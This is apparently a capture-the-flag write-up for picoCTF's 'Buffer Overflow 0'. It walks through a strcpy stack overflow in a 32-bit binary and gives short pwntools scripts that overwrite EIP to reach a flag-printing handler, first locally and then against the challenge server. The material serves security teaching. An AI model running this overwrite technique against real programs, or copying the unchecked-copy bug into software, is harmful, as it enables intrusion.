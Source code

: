

![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&size=35&lines=Buffer+Overflow+0)
<br>
![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&weight=500&pause=1000&color=F70000&width=435&lines=Binary+Exploitation)

![Challenge Description](chal_desc.png)

In this challenge we were given an ELF 32 bit executable and its source code. When we run the executable:

![Run ./vuln](run_vulns.png)

Let's examine the source code.
The challenge's name indicates that we're facing a buffer overflow vulnerability. The vulnerable part of the code is :

```python
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
the variable buf2 has a capacity of 16 bytes meanwhile the function ignores its length and copies the content of the argument input which can be arbitrarily long into the variable buf2. That'll cause the program to fill the space destined for the variable input and fills up adjacent places in the memory. These "adjacent spaces" can be very sensitive. Since they control the execution of the program. Let's now take a look at a dangerous function.

```python
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

This function is only written and not called. That seems hopeless! Not a bit! There's something in the memory called EIP register (in the 32bit architecture) which contains the adress of the next instruction that'll be executed. Of course, the whole code is transformed into assembly and instruction has an adress. That's it ! We just need now to implement the exploit.

Let's fire up gdb and look for the adress of the function sigsegv_handler() using the commnad `info functions`
![sigsegv_handler addr](info_functions.png)

It is located at the adress at the adress 0x0000130d
We can use the ![offset calc](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)(Website) to find the offset which is sort of the distance from the variable buf2 in the memory and the EIP register. We find that it is 28. So, we fill 28 bytes in the memory starting from the variable buf2 and followed by the adress of the sigsegv_handler() in shellcode.
We can use the following code in our local machine with a fake flag file to test.

```python
from pwn import *


payload = b"A"*28
payload += p32(0x0000130d)

p = process("./vuln")
p.recv(7)
p.sendline(payload)
p.interactive()

p.close()
``` 

![fake flag](local_exp.png)
<br>
It worked! It printed the fake flag FLAG_FLAG

Now let's try to exploit it remotely and find the flag !
for that we need to modify our python script.

```python
from pwn import *


payload = b"A"*28
payload += p32(0x0000130d)

p = remote("saturn.picoctf.net", 51532)
p.recv(7)
p.sendline(payload)
p.interactive()

p.close()
```
and we get the final flag !!
![final flag](final_flag.png)
